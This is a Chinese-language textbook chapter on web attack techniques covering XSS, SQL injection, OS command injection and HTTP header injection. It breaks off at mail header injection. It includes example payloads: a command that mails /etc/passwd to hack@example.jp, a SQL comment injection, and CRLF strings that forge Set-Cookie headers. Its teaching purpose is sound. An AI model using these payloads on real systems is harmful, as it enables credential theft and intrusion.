## HTTP之Web的攻击技术
互联网上的攻击大都将 Web 站点作为目标。本章讲解具体有哪些攻
击 Web 站点的手段，以及攻击会造成怎样的影响。

### 11.1　针对 Web 的攻击技术
简单的 HTTP 协议本身并不存在安全性问题，因此协议本身几乎不会
成为攻击的对象。应用 HTTP 协议的服务器和客户端，以及运行在服
务器上的 Web 应用等资源才是攻击目标。

目前，来自互联网的攻击大多是冲着 Web 站点来的，它们大多把
Web 应用作为攻击目标。本章主要针对 Web 应用的攻击技术进行讲
解。

**11.1.1　HTTP 不具备必要的安全功能**

与最初的设计相比，现今的 Web 网站应用的 HTTP 协议的使用方式
已发生了翻天覆地的变化。几乎现今所有的 Web 网站都会使用会话
（session）管理、加密处理等安全性方面的功能，而 HTTP 协议内并
不具备这些功能。

从整体上看，HTTP 就是一个通用的单纯协议机制。因此它具备较多
优势，但是在安全性方面则呈劣势。

就拿远程登录时会用到的 SSH 协议来说，SSH 具备协议级别的认证
及会话管理等功能，HTTP 协议则没有。另外在架设 SSH 服务方面，
任何人都可以轻易地创建安全等级高的服务，而 HTTP 即使已架设好
服务器，但若想提供服务器基础上的 Web 应用，很多情况下都需要
重新开发。

因此，开发者需要自行设计并开发认证及会话管理功能来满足 Web
应用的安全。而自行设计就意味着会出现各种形形色色的实现。结
果，安全等级并不完备，可仍在运作的 Web 应用背后却隐藏着各种
容易被攻击者滥用的安全漏洞的 Bug。

**11.1.2　在客户端即可篡改请求**

在 Web 应用中，从浏览器那接收到的 HTTP 请求的全部内容，都可
以在客户端自由地变更、篡改。所以 Web 应用可能会接收到与预期
数据不相同的内容。

在 HTTP 请求报文内加载攻击代码，就能发起对 Web 应用的攻击。
通过 URL 查询字段或表单、HTTP 首部、Cookie 等途径把攻击代码传
入，若这时 Web 应用存在安全漏洞，那内部信息就会遭到窃取，或
被攻击者拿到管理权限。

**11.1.3　针对 Web 应用的攻击模式**

对 Web 应用的攻击模式有以下两种。

- 主动攻击
- 被动攻击
- 以服务器为目标的主动攻击  
  主动攻击（active attack）是指攻击者通过直接访问 Web 应用，
  把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的
  资源进行攻击，因此攻击者需要能够访问到那些资源。  
  主动攻击模式里具有代表性的攻击是 SQL 注入攻击和 OS 命令注
  入攻击。
- 以服务器为目标的被动攻击  
  被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻
  击模式。在被动攻击过程中，攻击者不直接对目标 Web 应用访
  问发起攻击。  
  被动攻击通常的攻击模式如下所示。  
  步骤 1： 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发
  送已嵌入攻击代码的 HTTP 请求。  
  步骤 2： 当用户不知不觉中招之后，用户的浏览器或邮件客户端
  就会触发这个陷阱。  
  步骤 3： 中招后的用户浏览器会把含有攻击代码的 HTTP 请求发
  送给作为攻击目标的 Web 应用，运行攻击代码。  
  步骤 4： 执行完攻击代码，存在安全漏洞的 Web 应用会成为攻
  击者的跳板，可能导致用户所持的 Cookie 等个人信息被窃取，
  登录状态中的用户权限遭恶意滥用等后果。  
  被动攻击模式中具有代表性的攻击是跨站脚本攻击和跨站点请求
  伪造。
  

  利用用户的身份攻击企业内部网络  
  利用被动攻击，可发起对原本从互联网上无法直接访问的企业内
  网等网络的攻击。只要用户踏入攻击者预先设好的陷阱，在用户
  能够访问到的网络范围内，即使是企业内网也同样会受到攻击。  
  很多企业内网依然可以连接到互联网上，访问 Web 网站，或接
  收互联网发来的邮件。这样就可能给攻击者以可乘之机，诱导用
  户触发陷阱后对企业内网发动攻击。
  

### 11.2　因输出值转义不完全引发的安全漏洞
实施 Web 应用的安全对策可大致分为以下两部分。
- 客户端的验证
- Web 应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义
    
  多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡
  改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范
  对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI
  体验的作用。  
  Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是
  具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业
  务逻辑的数值或检查字符编码等预防对策。  
  从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之
  际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转
  义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损
  害。

#### 11.2.1　跨站脚本攻击

跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的
Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进
行的一种攻击。动态创建的 HTML 部分有可能隐藏着安全漏洞。就
这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一
不小心就会受到被动攻击。

跨站脚本攻击有可能造成以下影响。
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，
- 帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。  
　跨站脚本攻击案例  
  在动态生成 HTML 处发生  
  下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示
  了用户输入的个人信息内容。
  

此时的确认界面上，浏览器会把用户输入的'<s> 解析成 HTML
标签，然后显示删除线</s>。

删除线显示出来并不会造成太大的不利后果，但如果换成使用
script 标签将会如何呢。

XSS 是攻击者利用预先设置的陷阱触发的被动攻击
跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于
攻击的陷阱。

下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表
单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨
站脚本攻击的漏洞。



充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶
意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页
面内，诱使用户去点击该 URL。



浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的
脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，
就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登
录信息被窃取。





- 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够
以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。





#### 11.2.2　SQL 注入攻击
- 会执行非法 SQL 的 SQL 注入攻击  
  SQL 注入（SQL Injection）是指针对 Web 应用使用的数据库，通
  过运行非法的 SQL 而产生的攻击。该安全隐患有可能引发极大
  的威胁，有时会直接导致个人信息及机密信息的泄露。  
  Web 应用通常都会用到数据库，当需要对数据库表内的数据进行
  检索或添加、删除等操作时，会使用 SQL 语句连接数据库进行
  特定的操作。如果在调用 SQL 语句的方式上存在疏漏，就有可
  能执行被恶意注入（Injection）非法 SQL 语句。  
  SQL 注入攻击有可能会造成以下等影响。
  - 非法查看或篡改数据库内的数据
  - 规避认证
  - 执行和数据库服务器业务关联的程序等
- SQL 注入攻击案例  
  下面以某个购物网站的搜索功能为例，讲解 SQL 注入攻击。通
  过该功能，我们可以将某作者的名字作为搜索关键字，查找该作
  者的所有著作.
  
  正常处理的操作示例  
  下图是将“上野宣”作为关键字的搜索结果。
  
  URL 的查询字段已指定 q= 上野宣，这个值由 Web 应用传入到
  SQL 语句中，构成下方的 SQL 语句。  
  SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1;
  该 SQL 语句表示“从 bookTbl 表中，显示满足 author= 上野宣 and
  flag=1（可售）所在行的数据”。  
  数据库内的 bookTbl 表记录着该购物网站的所有书籍信息。通过
  SQL 语句，将满足作者名（author）上野宣并且 flag 为 1 双重条
  件的条目取出，最后作为搜索结果显示出来。
  
  SQL 注入攻击的操作示例  
  把刚才指定查询字段的上野宣改写成“上野宣'--”。
    
  SQL 语句中的 -- 之后全视为注释。即，and flag=1 这个条件被自
  动忽略了.
  

- SQL 注入攻击破坏 SQL 语句结构的案例  
  SQL 注入是攻击者将 SQL 语句改变成开发者意想不到的形式以
  达到破坏结构的攻击。  
  比如，在之前的攻击案例中，就会把 author 的字面值（程序中使
  用 的常量）" 上野宣 '--" 的字符串赋值给 $q。
  
  上图中颜色标记的字符串最开始的单引号 (') 表示会将 author 的
  字面值括起来，以到达第二个单引号后作为结束。因此，author
  的字面值就成了上野宣，而后面的 -- 则不再属于 author 字面
  值，会被解析成其他的句法。  
  本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。
  但实际发生 SQL 注入攻击时，很有可能会导致用户信息或结算
  内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度
  的损失。
#### 11.2.3　OS 命令注入攻击
OS 命令注入攻击（OS Command Injection）是指通过 Web 应用，执行
非法的操作系统命令达到攻击的目的。只要在能调用 Shell 函数的地
方就有存在被攻击的风险。

可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell
时存在疏漏，就可以执行插入的非法 OS 命令。

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系
统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安
装着的各种程序。

- OS 注入攻击案例

  下面以咨询表单的发送功能为例，讲解 OS 注入攻击。该功能可
  将用户的咨询邮件按已填写的对方邮箱地址发送过去。

  
  
  攻击者的输入值中含有分号（;）。这个符号在 OS 命令中，会被
  解析为分隔多个执行命令的标记

  可见，sendmail 命令执行被分隔后，接下去就会执行 cat
  /etc/passwd | mail hack@example.jp 这样的命令了。结果，含有
  Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了
  hack@example.jp。

#### 11.2.4　HTTP 首部注入攻击
HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应
首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被
动攻击模式。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP
Response Splitting Attack）。

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字
段 Location 和 Set-Cookie。



HTTP 首部注入可能像这样，通过在某些响应首部字段需要处理输出
值的地方，插入换行发动攻击。

HTTP 首部注入攻击有可能会造成以下一些影响。
- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP 响应截断攻击）
- HTTP 首部注入攻击案例  
  下面我们以选定某个类别后即可跳转至各类别对应页面的功能为
  例，讲解 HTTP 首部注入攻击。该功能为每个类别都设定了一个
  类别 ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的
  Location 首部字段内，形如 Location: http://example.com/?
  cat=101。令浏览器发生重定 向跳转。

  

  攻击者以下面的内容替代之前的类别 ID 后发送请求。

  ```
  101%0D%0ASet-Cookie:+SID=123456789
  ```
  其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强
  制将攻击者网站（http://hackr.jp/）的会话 ID 设置成
  SID=123456789 的 Set-Cookie 首部字段。

  发送该请求之后，假设结果返回以下响应。

  ```
  Location: http://example.com/?cat=101（%0D%0A ：换行符）
  Set-Cookie: SID=123456789
  ```
  此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意
  的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会
  话 ID）攻击组合，攻击者可伪装成用户.

  攻击者输入的 %0D%0A，原本应该属于首部字段 Location 的查
  询值部分，但经过解析后，%0D%0A 变成了换行符，结果插入
  了新的首部字段。

  这样一来，攻击者可在响应中插入任意的首部字段。
- HTTP 响应截断攻击  
  HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺
  序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发
  送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需
  的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻
  击叫做 HTTP 响应截断攻击。
  ```
  %0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!
  ```
  在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返
  回结果得到以下这种响应。

  ```
  Set-Cookie: UID=（%0D%0A ：换行符）
  （%0D%0A ：换行符）
  <HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--（原来页面对应的首部
  ```

  利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页
  面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相
  同的效果。

  另外，滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务
  器对任意内容进行缓存操作。这种攻击称为缓存污染。使用该缓
  存服务器的用户，在浏览遭受攻击的网站时，会不断地浏览被替
  换掉的 Web 网页。
#### 11.2.5　邮件首部注入攻击
邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功
能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的
攻击。利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告
邮件或病毒邮件。

下面以 Web 页面中的咨询表单为例讲解邮件首部注入攻击。该
功能可在表单内填入咨询者的邮件地址及咨询内容后，以邮件的
形式发送给网站管理员。

